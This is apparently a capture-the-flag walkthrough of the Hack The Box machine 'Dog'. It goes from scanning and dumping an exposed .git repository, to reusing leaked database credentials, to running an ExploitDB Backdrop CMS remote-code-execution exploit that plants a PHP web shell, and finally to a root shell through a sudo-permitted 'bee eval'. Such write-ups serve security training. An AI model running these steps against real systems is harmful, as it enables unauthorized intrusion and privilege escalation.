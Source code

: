# Dog - easy


## Nmap Enumeration

```
sudo nmap 10.10.11.58 -p- -Pn                                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 04:46 EDT
Nmap scan report for dog.htb (10.10.11.58)
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.13 seconds
```

```
sudo nmap 10.10.11.58 -p 22,80 -Pn -sC -sV 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 04:46 EDT
Nmap scan report for dog.htb (10.10.11.58)
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds
```

### Web Enumeration 

```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.10.11.58/FUZZ -mc all -fc 404

files                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 36ms]
themes                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 38ms]
modules                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 49ms]
sites                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 50ms]
core                    [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 40ms]
layouts                 [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 50ms]
```

```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt  -u http://10.10.11.58/FUZZ -mc all -fc 404

LICENSE.txt             [Status: 200, Size: 18092, Words: 3133, Lines: 340, Duration: 38ms]
index.php               [Status: 200, Size: 13332, Words: 1368, Lines: 202, Duration: 66ms]
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 70ms]
robots.txt              [Status: 200, Size: 1198, Words: 114, Lines: 47, Duration: 46ms]
settings.php            [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 54ms]
.html                   [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 46ms]
.php                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 32ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 52ms]
.htm                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 37ms]
.git                    [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 49ms]
.htpasswds              [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 36ms]
.htgroup                [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 46ms]
wp-forum.phps           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 62ms]
.htaccess.bak           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 49ms]
.htuser                 [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 34ms]
.ht                     [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 43ms]
.htc                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 45ms]
```

Aftert some researches, we find an user mail address:
```
http://10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json

tiffany@dog.htb
```

We found a `.git` folder too. We use [githacker](https://github.com/WangYihang/GitHacker?tab=readme-ov-file) to dump the repository: 
```
python -m ven venv
cd env
source bin/activate

githacker --url http://dog.htb/.git/ --output-folder result
```

We find the credentials of the database in `setting.php`:
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

With the mail found in the configuration files and the database password in the repository, we can login to the site:
```
tiffany
BackDropJ2024DS2024
```


The site is powered by Backdrop CMS 1.27.1 and is vulnerable. We can perform a Remote Command Execution by installing a malicious module manually with a php shell script. We find an [exploit](https://www.exploit-db.com/exploits/52021) on exploitDB.
```
python3 script.py http://dog.htb
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb/modules/shell/shell.php
```

A `/shell` folder is created, next we create an archive and upload it on the site via the manual installation `http://dog.htb/admin/modules/install`:
```
tar -czvf shell.tar.gz shell/
```

We can now execute commands:
```
http://10.10.11.58/modules/shell/shell.php?cmd=cat+%2Fetc%2Fpasswd
```

On the machine we find the user `johncusack`:
```
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

We have access to the machine wtih `johncusack:BackDropJ2024DS2024`


## Privilege escalation

```
johncusack@dog:~$ sudo -l 
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

We found that `bee` can perform the command `eval` which run php code:

```
johncusack@dog:~$ sudo /usr/local/bin/bee --help
...
  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

We specify the backdrop repository to make it works:
```
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"
```
